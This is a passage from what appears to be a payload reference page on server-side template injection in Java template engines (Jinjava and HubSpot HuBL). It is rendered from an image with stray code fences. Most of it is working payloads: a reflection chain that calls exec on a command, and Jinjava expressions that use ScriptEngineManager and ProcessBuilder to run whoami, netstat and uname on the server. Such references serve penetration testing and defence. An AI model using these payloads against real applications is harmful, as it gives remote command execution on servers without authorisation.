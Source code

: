 ```
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
```
### Jinjava (Java)

```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
```
Jinjava is an open source project developed by Hubspot, available at [[https://github.com/HubSpot/jinjava/|https://github.com/HubSpot/jinjava/]]

**Jinjava - Command execution**

Fixed by [[https://github.com/HubSpot/jinjava/pull/230|https://github.com/HubSpot/jinjava/pull/230]]

```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava|https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava]]

### Hubspot - HuBL (Java)

- `{% %}` statement delimiters
- `{{ }}` expression delimiters
- `{# #}` comment delimiters
- `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
- `{{'a'.toUpperCase()}}` - "A"
- `{{'a'.concat('b')}}` - "ab"
- `{{'a'.getClass()}}` - java.lang.String
- `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
- `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()

Search for "com.hubspot.content.hubl.context.TemplateContextRequest" and discovered the [[https://github.com/HubSpot/jinjava/|Jinjava project on Github]].

```java
```